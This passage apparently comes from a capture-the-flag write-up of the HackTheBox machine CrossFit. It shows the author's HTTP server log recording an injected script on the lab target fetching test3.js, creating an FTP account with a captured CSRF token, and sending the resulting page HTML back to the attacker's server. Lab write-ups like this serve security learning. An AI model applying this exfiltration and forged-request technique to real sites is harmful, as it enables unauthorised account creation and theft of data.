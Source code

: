 Next, I modified my payload to actually create the new FTP user.  

```text
10.10.10.208 - - [15/Jan/2021 21:51:58] "GET /test3.js HTTP/1.1" 200 -
10.10.10.208 - - [15/Jan/2021 21:51:58] code 501, message Unsupported method ('POST')
10.10.10.208 - - [15/Jan/2021 21:51:58] "POST /username=test3&pass=p@ssword123&_token=EnEv1a4N27y3dqOO8UpAiGqpr3WuAbAUyoJ5D8at HTTP/1.1" 501 -
10.10.10.208 - - [15/Jan/2021 21:51:58] code 404, message File not found
10.10.10.208 - - [15/Jan/2021 21:51:58] "GET /%3C!DOCTYPE%20html%3E%3Chtml%3E%3Chead%3E%20%20%20%20%3Ctitle%3EFTP%20Hosting%20-%20Account%20Management%3C/title%3E%20%20%20%20%3Clink%20href=%22https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css%22%20rel=%22stylesheet%22%3E%3C/head%3E%3Cbody%3E%3Cbr%3E%3Cdiv%20class=%22container%22%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22row%22%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22col-lg-12%20margin-tb%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class=%22pull-left%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ch2%3EFTP%20Hosting%20-%20Account%20Management%3C/h2%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class=%22pull-right%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20class=%22btn%20btn-success%22%20href=%22http://ftp.crossfit.htb/accounts/create%22%3E%20Create%20New%20Account%3C/a%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class=%22alert%20alert-success%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%3EAccount%20created%20successfully.%3C/p%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3Ctable%20class=%22table%20table-bordered%22%3E%20%20%20%20%20%20%20%20%3Ctr%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3ENo%3C/th%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3EUsername%3C/th%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3ECreation%20Date%3C/th%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%20width=%22280px%22%3EAction%3C/th%3E%20%20%20%20%20%20%20%20%3C/tr%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ctr%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3E1%3C/td%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3Etest3%3C/td%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3E2021-01-15%2002:01:55%3C/td%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20action=%22http://ftp.crossfit.htb/accounts/85%22%20method=%22POST%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20class=%22btn%20btn-info%22%20href=%22http://ftp.crossfit.htb/accounts/85%22%3EShow%3C/a%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20class=%22btn%20btn-primary%22%20href=%22http://ftp.crossfit.htb/accounts/85/edit%22%3EEdit%3C/a%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type=%22hidden%22%20name=%22_token%22%20value=%22EnEv1a4N27y3dqOO8UpAiGqpr3WuAbAUyoJ5D8at%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type=%22hidden%22%20name=%22_method%22%20value=%22DELETE%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20type=%22submit%22%20class=%22btn%20btn-danger%22%3EDelete%3C/button%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C/form%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/td%3E%20%20%20%20%20%20%20%20%3C/tr%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/table%3E%20%20%20%20%3C/div%3E%3C/body%3E%3C/html%3E HTTP/1.1" 404 -
```

Got a response on my HTTP server with the parameters I was sending to the server, then again with HTML code of the response.  I hoped that it included some kind of way to tell if I had been successful at creating a user.  


> I went through a few iterations as you can see...at one point I thought that maybe my request was getting rejected because of too simple of a password so I upgraded it.  It may or may not have been a typo I found in my script, but I left it anyway just in case.


```markup
<!DOCTYPE html>
<html>
<head>
    <title>FTP Hosting - Account Management</title>
    <link href="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css" rel="stylesheet">
</head>
<body>
<br>
<div class="container">
        <div class="row">
        <div class="col-lg-12 margin-tb">
            <div class="pull-left">
                <h2>FTP Hosting - Account Management</h2>
            </div>
```
